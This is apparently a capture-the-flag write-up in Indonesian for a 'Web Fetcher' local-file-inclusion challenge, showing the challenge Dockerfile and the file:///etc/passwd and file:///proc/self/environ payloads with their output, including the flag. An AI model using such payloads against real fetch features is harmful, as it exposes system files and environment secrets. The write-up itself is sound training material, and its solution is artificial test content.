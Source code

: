 # Web Fetcher
<H2>Topic: LFI</H2>
Tools: browser, text viewer

Untuk meyelesaikan ini kita harus mengerti tata folder yang di dalam server. maka dari itu mari kita lihat code yang di dalam file DockerFile sebagai contoh. 
``` docker
FROM denoland/deno:latest

RUN mkdir -p /ctf
WORKDIR /ctf
COPY ./src/ .
COPY ./makefile .

RUN useradd -d /home/ctf/ -m -p ctf -s /bin/bash ctf
RUN echo "ctf:ctf" | chpasswd

ENV FLAG="Bukan Flag Asli"
RUN deno cache main.ts

USER ctf

ENV PORT=1337
EXPOSE 1337
CMD deno run --no-prompt \
    --allow-env \
    --allow-read \
    --allow-net \
    main.ts  
```
menurut code yang di atas kita akan mempunyai folder `/ctf` sebagai working directory lalu seluruh file yang ada di dalam `./src` akan di copy ke dalam `/ctf` lalu kita juga mempunyai flag kita yang berada di dalam environment variable. Mencoba web yang diberikan kita tahu web ini berfungsi untuk fetch dari input yang berikan.

Maka dari itu karena topic nya merupakan LFI kita harus mencari tahu bagaimana caranya untuk membaca environment variable. Dengan mencari di google kita bisa mendapat info tentang environment variable dengan membaca `/proc/self/environ` yang dimana file itu berupa list dari semua environment variable di mesin linux. 

untuk fecth nya biasanya kita bisa menggunakan cara `file://` mari kita coba payload pertama berupa 
```bash 
file:///etc/passwd
```
dengan output seperti ini
```bash
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-
data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List 
Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin 
deno:x:1993:1993::/home/deno:/bin/sh ctf:x:1994:1994::/home/ctf/:/bin/bash
```
code di atas berarti untuk membaca file /etc/paswwd, karena kita bisa membaca payload tersebut mari kita coba dengan
```bash
file:///proc/self/environ
```
yang dimana kita mendapatkan output ini
```bash
HOSTNAME=3a6abdf511de
PORT=1337
HOME=/home/ctf/
DENO_INSTALL_ROOT=/usr/local
TERM=xterm
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DENO_DIR=/deno-dir/
PWD=/ctf
FLAG=TCP1P{local_file_inclusion_with_fetch}
DENO_VERSION=1.29.1
```
